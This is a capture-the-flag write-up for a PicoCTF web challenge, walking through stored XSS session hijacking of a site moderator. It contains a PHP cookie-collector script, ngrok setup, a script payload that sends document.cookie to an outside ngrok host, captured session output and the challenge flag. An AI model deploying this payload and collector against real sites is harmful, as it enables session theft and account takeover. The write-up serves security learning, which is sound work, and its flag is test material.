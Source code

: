 ## Secure Page Service

This challenge comes from PicoCTF. We have access to a very simple website with login features that allows users to post comments.

Our goal is to view the page with the id ```43440b22864b30a0098f034eaf940730ca211a55``` which is password locked. Only the site moderator could see this post, so we are to somehow disguise ourselves as the site moderator.
The way we can "pretend" as the site moderator is to hijack their session. Http is a stateless protocol, and the way server identifies individual users is by their cookies. 
If we could steal the moderator's cookie, we can login as the moderator without knowing their password and view the flag. 

In this challenge, we can perform session hijacking with XSS (Cross Site Scripting). When unescaped user input is directly presented on the webpage (the typical example is online forums), it is possible to embed scripts which can be executed upon an access to the webpage (or a click on the link).

The easiest way to check if XSS is possible is by embedding ```<script>alert()</script>```. When we access the page and if the alert pop-up shows up, then
it means the javascript code was successfully executed.

XSS requires the target/victim to access the page or click on the link, which is often the most difficult aspect of XSS. Luckily for this challenge, we can "report" our comment to the moderator: this guarantees that the moderator will view our comment!

So now it all comes down to the code we embed, as well as how to collect the cookie. There are many ways to do this, but one common thing is that we have to set up our own webpage to which we redirect the victim. I chose to set up the webpage using XAMPP with the help of ngrok.
Firstly, set up a webpage named ```cookieCatcher.php```, whose code is shown below
```
<?php
  $cookie = $_GET['cookie'];
  $ip = $_SERVER['REMOTE_ADDR'];
  $date = date('l jS \of F Y h:i:s A');
  $referer = $_SERVER['HTTP_REFERER'];
  $fp = fopen('cookies.html', 'a');
  fwrite($fp, 'Cookie: '.$cookie.'<br> IP: ' .$ip. '<br> Date and Time: ' .$date. '<br> Website: '.$referer.'<br><br><br>');
  fclose($fp);
  header ("javascript:history.back()");
?>
```
Basically, this acquires the victim's cookie (and REMOTE_ADD), and then outputs it to a file named ```cookies.html``` in the same directory. The output file can be a text file too. Put this PHP file in the ```htdocs``` folder. In order for a third party to access this page, we use ```ngrok```. This is a command line tool that creates a temoporary URL with which a third party can access our ```localhost```. 
Start up Apache in ```XAMPP```, and in the command line, type in ```ngrok.exe http 80```. This will output something like
```
Session Status                online
Version                       2.1.18
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    http://11465a2b.ngrok.io -> localhost:80
Forwarding                    https://11465a2b.ngrok.io -> localhost:80

Connections                   ttl     opn     rt1     rt5     p50     p90
                              0       0       0.00    0.00    0.00    0.00
```
We are using GET method, so the code that we want to embed is something like 
```<script> location.href=("https://11465a2b.ngrok.io/cookieCatcher.php?cookie="document.cookie)</script>```

Note that ```document.cookie``` is outside the quotation. This redirects the user to ```cookieCatcher.php``` where we collect their cookie.
Fill out the comment with the script and click on "create". To prevent the script from executing for ourselves, add a password to this post. Now click on "report to the moderator" button, and check ```cookies.html```. You should see

```
Cookie: PHPSESSID=tc5n2bs46n32oh6u95lqfuftr3
IP: ::1
Date and Time: Sunday 1st of January 2017 05:55:06 AM
Website: http://sps.picoctf.com/view_page.php?page_id=eeff5ac550044e7f3ac738ffb3eb0c0cfb5b9500
```

We see that ```PHPSESSID = tc5n2bs46n32oh6u95lqfuftr3```. This is the session ID of the moderator: note that this is not static, so it will be different every time. Using ```CookieEditor```, a Firefox extension, we can set our cookie to this value.
Finally, enter the post id ```43440b22864b30a0098f034eaf940730ca211a55```. Without password, we are able to view the page, and it gives out the flag as a javascript alert. 
The flag is ```wow_cross_site_scripting_is_such_web```




